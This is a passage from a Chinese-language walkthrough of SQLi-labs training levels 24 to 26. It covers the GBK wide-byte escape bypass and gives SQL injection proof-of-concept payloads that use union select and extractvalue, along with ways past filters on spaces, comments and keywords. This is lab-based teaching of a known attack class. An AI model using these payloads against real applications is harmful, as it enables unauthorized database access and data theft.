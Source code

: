 此时$trans_after值为`%bf\'`，其中`\`的编码为`%5c`，根据gbk的编码范围可知，`%bf%5c`表示的是字`縗`的编码，所以成功吃了字符`%5c`，并多出一个`%27`，即一个单引号

GBK编码范围

| 第一字节(高字节) | 第二字节(低字节) |
| ---------------- | ---------------  |
| 0x81~0xFE        | 0x40~0x7E/0x80~0xFE(转义符5c在其中)|

经过上面的讨论，可得
poc
![poc](http://o7ocntpuu.bkt.clouddn.com/less_24_poc.png)


## Less-25
过滤了`or`和`and`，但是`union select`, `order by`都没有过滤
poc
```
id=400' union select 1,extractvalue(1, concat(0x5e5e, database())),3 --+
```


## Less-26
    各种尝试后，可以得出，为防止注入过滤了如下字符
```
and, or, #, /**/, --, --+, 空格, ||, &&, +
```
空格的绕过方法主要有两个

* 利用注释符   如 `union/**/select/**/1,/**/2`
* 利用括号 如`select(1)from(table_name)where(id=..)`

所以可能的poc
```
?id=100'union(select(1),2,3)'
```
但是这样由于在union select后多了一个''，所以导致出错，即id是由单引号包裹的，想要绕过单引号的限制，我们可以使用注释符，将后面的语句注释掉

常用的注释符
```
//, -- , /**/, #, --+, -- -, ;%00
```
只有最后一个没有过滤，尝试使用，得到出错的poc
```
?id=100'union(select((extractvalue(1,concat(0x5e5e,version()))),(2),(3)));%00
```

在解决这道题时遇到了一个我以前没有发现的问题，在获取$_GET['id']的变量时，竟然自动进行url解码
举例
```
// $_GET['id'] = '%23test'
$id=$_GET['id'];
// $id='#test'
```
